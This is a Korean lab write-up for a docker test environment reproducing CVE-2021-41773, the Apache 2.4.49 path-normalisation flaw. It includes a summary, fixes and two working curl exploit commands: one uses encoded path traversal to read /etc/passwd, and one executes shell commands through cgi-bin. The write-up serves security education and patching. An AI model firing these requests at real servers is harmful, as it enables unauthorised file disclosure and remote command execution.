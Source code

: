 # CVE-2021-41773

[영어](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.md)
[중국어](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md)

> 화이트햇 스쿨 3기 - [이다솔 (@dasol729)](https://github.com/dasol729)

<br/>

### 요약

Apache HTTP Server는 가장 널리 사용되는 오픈소스 웹 서버 중 하나로, 전 세계 수많은 웹사이트와 시스템에서 사용되고 있습니다. 모듈 기반의 유연한 구조를 갖고 있으며, CGI, Proxy, SSL 등 다양한 기능을 설정 파일을 통해 지원합니다. 

CVE-2021-41773는 Apache HTTP Server 2.4.49 버전에서 경로 정규화(Path Normalization) 처리 과정에 결함으로 발생한 취약점입니다. 이 취약점을 이용하면 Apache의 내부 정규화를 우회하여 **파일 노출(File Disclosure) 및 원격 명령 실행(RCE)** 이 가능합니다.

<br/>

### 환경 설정 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행
  - `http://<IP>:8080`에 접속하여 확인 가능

- `/etc/passwd` 파일 내용 노출 확인
    ```bash
    curl -v --path-as-is http://<IP>:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
    ```
  - `--path-as-is` : URL 경로를 정규화하지 않고 그대로 전송

- 쉘 명령어 실행 확인 (CGI 활성화 시)
    ```bash
    curl -v --data "echo;id" 'http://<IP>:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
    ```

<br/>

### 결과

![](result1.jpg)
![](result2.jpg)

<br/>

### 정리

이 취약점은 Apache가 클라이언트로부터 전달받은 URL 경로를 정규화하는 과정에 결함이 있어, `%2e`, `%2e%2e` 등으로 경로 탐색이 가능하다는 문제에서 비롯됩니다.

- 그 결과, 민감한 파일(/etc/passwd)에 접근이 가능해지고
- CGI 모듈이 활성화되어 있고, 디렉터리 접근 제어 설정이 부재할 경우에는 원격 명령 실행(RCE)까지 가능합니다.   

### 대응 방안

- Apache HTTP Server를 2.4.51 이상으로 업데이트
- httpd.conf내의 Require all denied 설정하여 디렉터리 접근 제어
- CGI 기능(mod_cgi)이 불필요한 경우 비활성화하여 공격 표면 축소
